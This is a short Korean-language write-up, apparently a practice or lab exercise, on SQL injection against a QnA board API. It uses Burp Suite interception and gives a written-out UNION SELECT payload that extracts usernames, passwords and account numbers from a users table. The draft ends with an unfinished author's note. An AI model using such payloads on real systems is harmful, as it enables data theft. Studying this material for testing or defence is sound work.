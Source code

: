 # SQL 주입 공격
---
## 1. SQL 주입 공격이란?
---
+ 사용자의 입력 값으로 웹 사이트 SQL 쿼리가 완성되는 약점을 이용하며, 입력 값을 변조하여 비정상적인 SQL 쿼리를 조합하거나 실행하는 공격이다. 
+ 해당 취약점이 존재하는 경우 비정상적인 SQL 쿼리로 DBMS 및 
데이터(Data)를 열람하거나 조작 가능하므로 사용자의 입력 값에 대한 필터링을 구현하여야 한다.

---
## 2. 공격 방법
---
Burp suite로 QnA 게시판(/api/qna/view) 요청을 가로챈다.

![버프로잡은화면](https://user-images.githubusercontent.com/115529661/200977942-95309400-1560-4f96-9c47-bdd4911a10d4.jpg)

요청 body의 enc_data를 복호화하면 qna_id가 전달되는 것 확인할 수 있다.

![qna_id확인](https://user-images.githubusercontent.com/115529661/200978257-ce5eb74c-c1a8-416d-aac0-81d12b22f093.jpg)

qna_id에 넣을 SQL 쿼리문이다.
```js
{"qna_id":"false UNION select username as title, password as content, account_number as write_at from users where true LIMIT 1,2; -- "}
```
주입할 쿼리문을 포함한 JSON을 암호화한다.
```js
encrypt('{"qna_id":"false UNION select username as title, password as content, account_number as write_at from users where true LIMIT 1,2; -- "}');
```
![쿼리암호화](https://user-images.githubusercontent.com/115529661/200978302-b40fe385-5de5-4bf0-a091-79cb40fed626.png)

앞에서 암호화한 데이터를 요청에 넣어 보냈다.

![암호화한 데이터 송신](https://user-images.githubusercontent.com/115529661/200978464-1bf4a821-aa09-4e24-a3c5-5426fad26200.jpg)

응답값을 복호화해서 쿼리문 결과 확인할 수 있다.

![결과확인](https://user-images.githubusercontent.com/115529661/200978704-d8c4e842-44a3-4d0f-a559-07d533e9b402.jpg)

**암호화,복호화 확인 넣어야함

---